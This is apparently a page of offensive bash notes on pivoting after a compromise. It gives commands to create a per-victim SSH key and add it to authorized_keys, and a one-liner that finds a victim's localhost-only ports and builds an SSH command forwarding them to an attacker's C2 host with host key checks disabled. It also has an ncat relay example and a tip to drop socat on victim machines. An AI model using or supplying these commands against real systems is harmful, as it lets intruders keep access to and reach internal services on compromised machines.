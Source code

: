 ```bash 
#generate per victim ssh key and allow it to connect 
#chroot of some form recommended.

# https://unix.stackexchange.com/questions/69314/automated-ssh-keygen-without-passphrase-how

ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
sudo mv /tmp/sshkey.pub ~/.ssh/authorized_keys 
# mv /tmp/sshkey /var/www/html sshkey < if we want to script transferring to victim>
```

```bash
# one liner to output SSH command that forwards victim's ports to attacker via ssh if they're only listening on 127.0.0.1

netstat -antpu 2&>/dev/null |grep "127.0.0.1"| awk '{print $4}'|cut -d ":" -f2>listening_ports; sed 's/[[:digit:]]\+/-R 0:localhost:&/' listening_ports| tr '\n' ' '  > ssh_cmd ;sed  's/^.*$/ssh -o "StrictHostKeyChecking no" -o "UserKnownHostsFile \/dev\/null" -i \/tmp\/key &$C2/g' ssh_cmd > ssh_cmd.sh;cat ssh_cmd.sh

# sample output 
# ssh -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /# dev/null" -i /tmp/key -R 0:localhost:22 -R 0:localhost:500 # -R 0:localhost:4500 $C2%  

```


achieving port forwarding with other tools
``` bash
#ncat 
ncat -l localhost 8080 --sh-exec "ncat example.org 80"

#socat etc, to be completed
# drop socat on victim box, then can use that

https://unix.stackexchange.com/questions/293304/using-netcat-for-port-forwarding
```

other pivoting/portforwarding resources

https://artkond.com/2017/03/23/pivoting-guide/#socat


http://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html

#bash
offensive bash